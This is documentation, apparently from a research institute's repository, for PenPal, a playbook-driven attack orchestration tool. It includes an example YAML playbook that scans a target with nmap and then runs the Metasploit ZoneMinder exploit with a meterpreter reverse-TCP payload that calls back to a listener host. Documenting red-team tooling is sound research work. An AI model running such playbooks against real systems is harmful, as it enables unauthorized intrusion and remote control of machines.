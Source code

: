.. _Overview:

========
Overview
========

PenPal ships with a executable stub called "penpal" that can be called like follows:

.. code-block::

   penpal -h
   usage: penpal [-h] --config CONFIG [--debug] [--version]

   PenPal is an attack orchestration tool that executes full attack-chains based on playbooks.

   options:
     -h, --help       show this help message and exit
     --config CONFIG  Attack-Playbook in yaml-format
     --debug          Enable verbose output
     --version        show program's version number and exit

   (Austrian Institute of Technology) https://aecid.ait.ac.at Version: 0.1.0

The configuration-file is in yaml-format. The following yaml-file is an example of a playbook.yml:

.. code-block:: yaml

   ###

   vars:
     $SERVER_ADDRESS: 192.42.0.254

   cmd_config:
     loop_sleep: 5

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: shell
       cmd: nmap $SERVER_ADDRESS
       error_if: .*test.*

     - type: msf-module
       cmd: exploit/unix/webapp/zoneminder_snapshots
       creates_session: "foothold"
       options:
         RHOSTS: 192.42.0.254
       payload_options:
         LHOST: 192.42.2.253
       payload: cmd/unix/python/meterpreter/reverse_tcp
